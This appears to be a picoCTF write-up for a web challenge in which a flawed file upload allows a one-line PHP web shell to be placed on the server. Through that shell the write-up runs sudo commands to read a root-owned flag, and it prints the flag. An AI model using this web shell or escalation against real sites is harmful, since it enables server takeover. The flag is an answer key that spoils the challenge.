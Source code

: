 # Challenge description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Hint: Whenever you get a shell on a remote machine, check sudo -l

# Soluce

When we open the website, we can see that we can upload a file. We will try to upload a php file:

shell.php
```php
<?php system($_GET['cmd']); ?>
```

The website says this: `The file shell.php has been uploaded Path: uploads/shell.php `.

Then we can try to execute a command. We can use the command:
```bash
http://<REDACTED>/uploads/shell.php?cmd=sudo -l
```

We can see this:
```bash
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL 
```

So there is no password needed to execute root commands. Let's try to read the content of the /root directory. We can use the command:

```bash
http://<REDACTED>/uploads/shell.php?cmd=sudo ls /root
```

We can see this:
```bash
flag.txt
```

Then we can read the content of the flag.txt file. We can use the command:
```bash
http://<REDACTED>/uploads/shell.php?cmd=sudo cat /root/flag.txt
```

We can see the flag:
```bash
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```

So the flag is `picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}`.